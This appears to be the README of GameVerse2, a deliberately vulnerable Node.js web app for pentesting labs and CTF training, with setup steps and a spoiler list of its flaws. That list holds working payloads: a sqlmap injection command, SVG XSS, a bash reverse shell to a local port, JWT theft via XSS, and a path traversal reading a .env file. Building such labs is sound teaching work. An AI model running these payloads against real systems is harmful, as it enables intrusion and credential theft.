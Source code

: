 # GameVerse V2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

Frontend more or less vibe-coded, enjoy the looks :)
Feel free to use for whatever reason

> Do not deploy this server to a production or public environment.

---

## Features

- User authentication with JWT
- SQLite database
- File upload
- Basic forum / comment system
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/ettelman/gameverse2eng.git
cd gameverse2eng
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

The server will run on [http://localhost:3333](http://localhost:3333)

---

![alt text](captura-2025-06-03-1748961130.png)

### 2.1 Start with Docker

> Recommended for clean lab environments

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Vulnerabilities (spoilers!)</strong></summary>

### SQLi in `/users`
Example with sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --code 200 --tables --tamper=space2comment --risk 3 --level 5
```

---

### XSS via avatar URL (using `<object>`)
Create SVG:
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Embed the SVG like this:
```html
<object data="uploaded.svg" type="image/svg+xml"></object>
```

---

### Eval-based plugin RCE for admins
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```

---

### Path traversal against plugins
```plaintext
Upload .js outside plugins using ../ in the path – see the LFI example below.
```

---

### JWT exfiltration via XSS
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
</svg>
```

---

### Plaintext passwords in the database
```bash
sqlite3 gameverse.db
-- view all users and passwords in plaintext!
```

---

### LFI in `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Double URL-encode – `../config/dev/.env`)
</details>